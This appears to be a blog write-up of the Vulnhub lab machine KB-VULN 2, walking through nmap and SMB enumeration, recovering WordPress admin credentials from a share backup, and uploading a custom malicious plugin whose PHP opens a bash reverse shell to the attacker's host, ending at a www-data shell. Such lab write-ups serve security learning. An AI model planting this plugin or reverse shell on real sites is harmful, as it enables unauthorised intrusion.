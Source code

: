 ```yaml
---
title: Vulnhub - KB-VULN 2
description: My writeup on KB-VULN 2 box.
categories:
 - vulnhub
tags: vulnhub smb wordpress docker
---
```


![](https://i.imgur.com/BYdU05H.png)

You can find the machine there > [KB-VULN 2](https://www.vulnhub.com/entry/kb-vuln-2,562/){:target="_blank"}

## Summary

Time for the part 2 haha :P Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00048s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:56:FE:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.54 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Let's start with SMB enumeration, let's list the shares.

```
$ smbmap -H $ip
[+] Guest session   	IP: 192.168.1.20:445	Name: kb-server.zte.com.cn                              
        Disk                                        Permissions	Comment
	----                                               -----------	-------
	Anonymous                                         	READ ONLY	  OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	  IPC Service (Samba Server 4.7.6-Ubuntu)
```

Let's connect to anonymous & download the file.

```
$ smbclient //$ip/Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 13:58:56 2020
  ..                                  D        0  Wed Sep 16 13:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 13:58:56 2020

		14380040 blocks of size 1024. 8275680 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (83809.6 KiloBytes/sec) (average 83809.7 KiloBytes/sec)
smb: \> exit
```

`backup.zip` has a .txt file and a wordpress installation folder. The .txt has some creds in:

```
$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
```

Let's check port 80 now, we can start with a `dirb` scan.

```
$ dirb http://192.168.1.20/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 15:58:13 2020
URL_BASE: http://192.168.1.20/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.20/ ----
+ http://192.168.1.20/index.html (CODE:200|SIZE:10918)                                                                                                                                  
+ http://192.168.1.20/server-status (CODE:403|SIZE:277)                                                                                                                                 
==> DIRECTORY: http://192.168.1.20/wordpress/
```

Nice! a wordpress site, now makes sense. Takes time to load and we endup with an error message probably virtual hosts we can see on URL this:

![](https://i.imgur.com/IW2itrt.png)

Let's add it to `/etc/hosts`:

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.20    kb.vuln
```

Now we can head to `/wp-admin` and login with the creds we found before. `admin:MachineBoy141`

## Shell as www-data

Now i'll show you a way to make a custom malicious plugin for reverse shell! This will be our plugin:

```
<?php
   /*
   Plugin Name: pwned
   Version: 6.9
   Author: whoknows
   */

system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
?>
```

Let's zip it:

```
$ zip plugin.zip shell.php 
  adding: shell.php (deflated 11%)
```

Follow my steps:

![](https://i.imgur.com/H5VaTi8.png)

![](https://i.imgur.com/av4IDKC.png)

![](https://i.imgur.com/z6baZHl.png)

![](https://i.imgur.com/LlNDDNP.png)

Once you press active plugin we get a reverse shell back! :D

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@kb-server:/var/www/html/wordpress/wp-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@kb-server:/var/www/html/wordpress/wp-admin$ 
```
